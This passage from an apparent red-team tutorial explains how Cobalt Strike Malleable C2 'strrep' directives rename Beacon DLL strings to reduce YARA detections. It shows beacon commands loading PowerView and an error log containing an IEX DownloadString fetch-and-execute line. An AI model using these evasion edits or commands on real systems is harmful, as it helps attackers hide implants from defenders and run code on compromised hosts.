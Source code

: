         transform-x64 {
                strrep "beacon.x64.dll" "data.dll";
                strrep "ReflectiveLoader" "LoadData";
        }
}

  

This can replace strings with Beacon's reflective DLL.  If we use this profile and generate new shellcode, YARA flags on fewer strings.

C:\Tools\YARA>yara64.exe -s beacon_strings.yara 6368
beacon_strings 6368
0x1a475bfd72c:$c: %02d/%02d/%02d %02d:%02d:%02d
0x1a475bfd758:$c: %02d/%02d/%02d %02d:%02d:%02d
0x1a475bfd700:$d: %s as %s\%s: %d

  

---

#### Warning on String Replacement

I've seen people attempt to replace practically every string they can find in the Beacon payload, break functionality, and not understand why.  Take the following example:

strrep "HTTP/1.1 200 OK" "";

  

Beacon contains a tiny built-in HTTP server, used in workflows such as `powershell-import`, `powershell` and `powerpick`.  Imported scripts are fetched and executed from this internal webserver.

beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-Domain

beacon> powerpick Get-Domain
[+] received output:
ERROR: DownloadString : Exception calling "DownloadString" with "1" argument(s): "The server committed a p
ERROR: rotocol violation. Section=ResponseStatusLine"
ERROR: 
ERROR: At line:1 char:46
ERROR: + IEX (New-Object Net.Webclient).DownloadString <<<< ('http://127.0.0.1:41100/'); Get-Domain
ERROR:     + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
ERROR:     + FullyQualifiedErrorId : DotNetMethodException
ERROR:  
ERROR: Get-Domain : The term 'Get-Domain' is not recognized as the name of a cmdlet, function, script file
ERROR: , or operable program. Check the spelling of the name, or if a path was included, verify that the p
ERROR: ath is correct and try again.

  

PowerShell throws a _protocol violation_, because Beacon's internal server is no longer returning properly-formatted HTTP responses.  This can be seen in these example Wireshark captures.

